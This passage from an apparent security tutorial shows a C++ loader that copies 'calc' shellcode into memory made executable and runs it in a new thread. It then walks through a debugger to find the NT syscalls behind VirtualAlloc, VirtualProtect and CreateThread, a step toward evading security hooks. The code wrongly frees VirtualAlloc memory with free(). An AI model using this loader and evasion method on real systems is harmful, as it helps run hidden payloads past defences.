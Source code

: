 ```c++
{

    DWORD oldprotect = 0;

    //1. Allocate new RW memory buffer for payload
    LPVOID base_addr = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    //2. Copy the calc shellcode to the new memory buffer
    RtlMoveMemory(base_addr, calc_payload, calc_len);
    //3. Modify permissions on memory from RW to RX
    auto vp = VirtualProtect(base_addr, calc_len, PAGE_EXECUTE_READ, &oldprotect);
    printf("Press any key to spawn shellcode\n");
    getchar();
    //4. Create a thread using the address of the RX region that contains our shellcode
    auto ct = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)base_addr, 0, 0, 0); //CreateThread = NtCreateThreadEx

    WaitForSingleObject(ct, -1);
    free(base_addr);//clean up after ourselves
}
```

To find the relevant syscalls, make sure you have debug symbols enabled and put a breakpoint on the API calls you want to replace: VirtualAlloc, VirtualProtect and CreateThread. For these functions it's actually quite easy to just google which functions in kernel32 are eventually called since people have written about this before, but in the spirit of teaching someone to fish...

With the breakpoints in place, we start debugging the program and hit the first VirtualAlloc breakpoint. In the disassembler window, step into the execution flow until you see a 'syscall' instruction:

![VirtualAlloc Syscall](/images/virtualalloc-syscall-disassembly.PNG)

From this we know that the syscall is made in the NtAllocateVirtualMemory function. We note this down for later and repeat these steps for the next two breakpoints. We note that VirtualProtect ends up calling NtProtectVirtualMemory and CreateThread ends up at NtCreateThreadEx. There's a fair bit of setup done under the hood by the CreateThread API before it finally ends up at the syscall, as you'll see if you step through the execution flow in the disassembler.

VirtualProtect:

![VirtualProtect Syscall](/images/virtualprotect-syscall-disassembly.PNG)
